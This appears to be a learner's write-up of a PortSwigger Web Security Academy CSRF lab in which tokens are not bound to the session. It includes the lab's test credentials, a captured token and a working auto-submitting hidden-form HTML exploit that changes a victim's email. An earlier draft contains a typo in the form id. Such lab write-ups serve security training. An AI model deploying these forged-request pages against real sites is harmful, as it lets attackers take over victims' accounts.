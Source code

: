 This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

---

1. Log into user to obtain token
2. Use token to change the second user's email.


```php
email=test%40test.com&csrf=CQsVzkB7dcWbPqassMZMhBuv6k0l6iZU
```

```html
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display:none" name="csrf-iframe"></iframe>
		<form action="https://bank.com/email/change/" method="post" target="csrf-iframe" id="csrf-form">
			<input type="hidden" name="email" value="test@test.com">
		</form>
		<script>
		document.getElementById("csrf-from").submit()
		</script>
	</body>
</html>
```

`<input type="hidden" name="csrf" value="1234">`
`https://0a6700ec0437691e80be1cf7005100b6.web-security-academy.net/`

- From burp repeater you can copy the URL of the request:
`https://0a6700ec0437691e80be1cf7005100b6.web-security-academy.net/my-account/change-email`

Exploit:
```html
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display:none" name="csrf-iframe"></iframe>
		<form action="https://0a6700ec0437691e80be1cf7005100b6.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe" id="csrf-form">
			<input type="hidden" name="email" value="test12@test.com">
			<input type="hidden" name="csrf" value="CQsVzkB7dcWbPqassMZMhBuv6k0l6iZU">
		</form>
		<script>document.getElementById("csrf-form").submit()</script>	
	</body>
</html>
```

- The CSRF is regenerated every time it's used, so i opened a private window in firefox, logged in with carlos, and inspected element over the change email input location, i could then copy the CSRF.



